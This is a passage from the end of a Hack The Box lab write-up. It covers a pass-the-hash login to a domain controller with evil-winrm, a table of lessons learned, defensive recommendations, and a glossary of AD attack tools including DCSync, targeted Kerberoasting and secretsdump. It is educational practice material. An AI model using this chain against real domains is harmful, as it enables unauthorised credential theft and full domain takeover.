

```bash
evil-winrm -u 'administrator' -H '<Administrator NT hash>' -i 10.129.92.32
```

> 💡 Direct pass-the-hash: with the NT hash obtained via DCSync, there's no password to crack — the hash itself is the credential.



`root.txt` confirmed on Administrator's desktop — full domain compromise.

## 5. Post-exploitation and flags

An Administrator shell confirmed on the domain controller — full domain compromise established.

> 🔒 The exact contents of `user.txt` and `root.txt` aren't published in this writeup on purpose, so anyone practicing this same box still has to complete that last step themselves — the full path to each one is documented in §4 and §5.

## 6. Lessons learned

| Vulnerability | Where | Impact |
|----------------|-------|---------|
| Chained ACL permissions (`GenericAll`, `ForceChangePassword`) between standard user accounts | `olivia → michael → benjamin` | Allows cascading password resets with no real password ever known |
| FTP service exposed on the domain controller, authenticated with valid user credentials | Port 21 | Access to a backup file holding secrets |
| Password manager database (`.psafe3`) protected by a weak master password | `Backup.psafe3` | Leaks credentials for several additional accounts at once |
| `GenericWrite` over a user account | `emily → ethan` | Allows assigning a temporary SPN and running targeted Kerberoasting |
| Replication rights (`GetChanges`/`GetChangesAll`) over the domain assigned to a standard user account | `ethan` | **DCSync** attack: full domain credential dump, Administrator included |

## Defensive recommendations

- Periodically audit Active Directory ACLs with BloodHound (or equivalent tools) from the perspective of every standard user, not just privileged accounts — a chain of "minor" permissions can end in full compromise.
- Don't expose services like FTP on a domain controller unless strictly justified, and never with accessible credential backups.
- Don't store password manager databases in locations accessible to low-privilege accounts; enforce strong, unique master passwords.
- Restrict granting `GenericWrite`/`GenericAll`/`ForceChangePassword` from standard user accounts over other accounts — review inherited OU delegations especially closely.
- Strictly restrict replication rights (`Replicating Directory Changes`/`All`) to legitimate domain controllers and strictly necessary backup accounts.
- Monitor unusual DRS replication requests (from outside the actual DCs) and `servicePrincipalName` changes on user accounts, as indicators of DCSync and targeted Kerberoasting respectively.

## 7. Tool & command glossary

| Tool / command | What it's for |
|------------------|-----------------|
| `ping` / `nmap` | Host discovery and port/service enumeration |
| `enum-nmap` | Custom script that summarizes Nmap's output |
| `kerbrute userenum` | Enumerates valid Kerberos usernames by abusing the KDC's differentiated response to an `AS-REQ` |
| `bloodhound-python` / `bloodhound-start` | The Linux BloodHound collector and its GUI (Neo4j) startup |
| **BloodHound** | Graphically analyzes AD relationships (ACLs, group membership, sessions) to find escalation paths |
| **`GenericAll`** | Full control over an AD object; over a user, allows resetting their password without knowing the current one |
| **`ForceChangePassword`** | A narrower extended right: only allows forcing a password change on the target account |
| `net rpc password` | A Samba utility that remotely resets a domain account's password, abusing `GenericAll`/`ForceChangePassword` |
| `crackmapexec smb/winrm -u -p` | Validates credentials against SMB or WinRM; `(Pwn3d!)` confirms remote command execution |
| `ftp` | A command-line FTP client |
| **Password Safe / `.psafe3`** | An open-source password manager's encrypted (Twofish) database format, protected by a single master password |
| `pwsafe2john` | Extracts a `.psafe3` file's master password hash for offline cracking with John |
| `pwsafe` | Password Safe's GUI client, used to open and browse the decrypted database |
| **`GenericWrite`** | Allows modifying most of an object's attributes, including `servicePrincipalName` |
| **Targeted Kerberoasting** (`targetedKerberoast.py`) | Abuses `GenericWrite` to assign a temporary SPN to an account and force its Kerberoasting, removing the SPN afterward |
| `hashcat -m 13100` | A dictionary attack against Kerberos 5 TGS-REP etype 23 hashes |
| **DCSync** (`GetChanges`/`GetChangesAll`) | Abusing AD replication permissions to ask the DC for any account's credentials, with no code execution on the controller |
| `secretsdump.py` | Implements the DRSUAPI/MS-DRSR replication protocol to remotely dump `NTDS.dit` (every hash in the domain) |
| **Pass-the-hash (PtH)** | Authenticating with the NT hash directly, with no need for the cleartext password |

## 8. Attack flow



> 💡 **Why each step matters:** this box doesn't hinge on a single technical vulnerability, but on **repeatedly following the BloodHound graph** — every newly compromised account opens a different path (an ACL permission, a network resource, a file holding secrets) that has to be re-enumerated from scratch, hence the `K → C` loop in the diagram. `GenericWrite` deserves separate mention: it's not as direct as `GenericAll`, but it enables subtler techniques like assigning a temporary SPN to force targeted Kerberoasting against an account that normally wouldn't be "roastable." And, as in every AD chain, the point of no return is finding an account with replication rights (DCSync): from there, full domain compromise is immediate and doesn't depend on any further vulnerability.

---

*Written by [Arabot](https://github.com/Caan31) · Hack The Box · CPTS practice · 2026*
